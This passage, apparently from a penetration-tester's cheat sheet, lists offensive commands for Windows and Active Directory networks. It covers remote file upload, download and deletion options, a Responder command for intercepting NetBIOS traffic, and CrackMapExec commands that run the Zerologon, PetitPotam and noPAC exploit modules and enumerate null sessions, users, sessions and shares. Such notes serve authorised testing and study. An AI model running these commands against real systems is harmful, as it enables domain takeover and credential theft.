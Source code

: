     ```bash
    --download PATH: Download a file from the remote system, ex.'C$\temp\passwords.txt'
    --upload SRC DST: Upload a file to the remote system ex. '/tmp/payload.exe C$\temp\payload.exe'
    --delete PATH TO FILE: Delete a remote file, ex. 'C$\temp\msf.exe'
    --skip: Skip delete file confirmation prompt
    ```

#### \[\[Responder Cheat Sheet]]

*   **Run Responder:** Intercept and capture NetBIOS session data for further analysis and exploitation.

    ```bash
    responder -I <interface> -rdwv
    ```

#### \[\[NetExec]]

#### \[\[CrackMapExec]]

*   **Zerologon:**

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' -M zerologon
    ```
*   **PetitPotam:**

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' -M petitpotam
    ```
*   **noPAC:** This requires credentials.

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M nopac
    ```
*   **Map network hosts:**

    ```bash
    crackmapexec smb 192.168.1.0/24
    ```
*   **Enumerate Null Sessions:**

    ```bash
    crackmapexec smb <target_ip> -u '' -p ''
    crackmapexec smb <target_ip> --pass-pol
    crackmapexec smb <target_ip> --users
    crackmapexec smb <target_ip> --groups
    ```
*   **Enumerate anonymous logon:**

    ```bash
    crackmapexec smb <target_ip> -u 'a' -p ''
    ```
*   **Enumerate active sessions:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --sessions
    ```
*   **Enumerate shares and access:**
